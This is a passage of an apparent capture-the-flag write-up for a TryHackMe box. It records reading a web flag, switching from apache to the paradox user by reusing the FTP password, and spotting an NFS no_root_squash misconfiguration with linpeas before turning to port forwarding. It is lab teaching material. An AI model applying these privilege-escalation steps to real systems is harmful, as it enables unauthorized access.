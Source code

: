 
## Web Flag

```bash
bash-4.4$ cd
bash-4.4$ ls
error  icons  noindex  web.flag

bash-4.4$ hostname && whoami && cat web.flag
localhost.localdomain
apache
thm{REDACTED}
```

---

## Privilege Escalation (Apache to Paradox)

- Try to switch to paradox user using the same password as that of ftp.

```bash
bash-4.4$ whoami
apache

bash-4.4$ su paradox
Password: 

[paradox@localhost home]$ whoami
paradox
```

---

## Running Linpeas

- After running linpeas, we find the privilege escalation vector:

```bash
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```

- But the port 2049 is not open on the victim machine. We get the following errors:

```bash
$ rpcinfo -p 10.10.213.153
10.10.213.153: RPC: Remote system error - No route to host

$ showmount -e 10.10.213.153
clnt_create: RPC: Unable to receive
```

- Hence we must do port forwarding to exploit **no_root_squash**. (I didn't know how to proceed furher, so read a walkthrough to learn more about port forwarding.)
- You can use **SSH** or **Chisel** for port forwarding.

--- 